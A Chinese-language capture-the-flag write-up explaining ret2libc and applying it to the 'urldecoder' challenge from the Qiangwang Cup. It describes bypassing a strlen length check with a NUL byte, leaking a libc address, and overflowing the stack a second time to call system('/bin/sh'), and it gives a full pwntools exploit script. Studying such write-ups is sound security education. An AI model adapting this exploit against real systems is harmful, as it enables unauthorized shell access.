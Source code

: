 2.3.2 原理

一种常见的利用方式是用libc中的system()的地址覆盖返回地址,同时在栈上布置好的参数,程序返回时就会产生一个shell

2.3.3 实践

在这儿用的程序是强网杯的urldecoder(程序见附件),再次感谢tracy_子鹏学长指点

这道题同时开了ASLR和DEP.,运行环境为32位linux

1.  分析程序后发现,前面读入数据时,只有遇到换行和EOF才会结束,但是后面检查字符串长度是用的strlen,于是可以通过在字符串中加入\x00来绕过长度检查
2.  继续分析程序流程,发现,当输入为%1\x00时就可以成功覆盖返回地址
3.  接下来就考虑利用漏洞的方法
4.  观察到溢出后,程序会多输出一些栈上的数据出来,想到可以利用输出出来的一些数据定位libc加载的基址,然后将返回地址覆盖为前面读入数据的代码地址,再读一次数据,再溢出一次,这一次执行到返回时,就执行libc中的system函数
5.  题目提供了libc,可以计算其中各函数的偏移,找到libc中system函数和/bin/sh字符串的地址,同时在栈上布置好参数,即可成功利用

下面附上exp及解释

```
from pwn import *
from zio import *

context(arch = 'i386', os = 'linux')

#注意此处ELF()的用处是后面计算偏移,你运行程序时还是用的当前系统的libc
#libc = ELF('./libc.so.6.i386')
libc = ELF('/lib/i386-linux-gnu/i686/cmov/libc.so.6')

#p = remote('119.254.101.197', 10001)
p = process('./urldecoder')

#第一次输入,获取libc中的地址信息
ret_addr = '\x90\x85\x04\x08'
payload = "http://baidu.com//%1" + "\x00" + "a"*137 + ret_addr

p.recvuntil("URL:")
p.send(payload + '\n')

data = p.recvuntil("URL:")
base_addr = data[196:200]

printf_addr = l32(base_addr) - 0x117474

offset = libc.symbols['printf'] - libc.symbols['system']
system_addr = printf_addr - offset

binsh_offset = next(libc.search('/bin/sh')) - libc.symbols['printf']
binsh_addr = binsh_offset + printf_addr

#第二次输入
ret_addr = '\x12\x12\x12\x12'
payload = "http://baidu.com//%1" + "\x00" +  "a"*137 + l32(system_addr) + ret_addr +  l32(binsh_addr)

p.send(payload + '\n')
p.interactive()

```
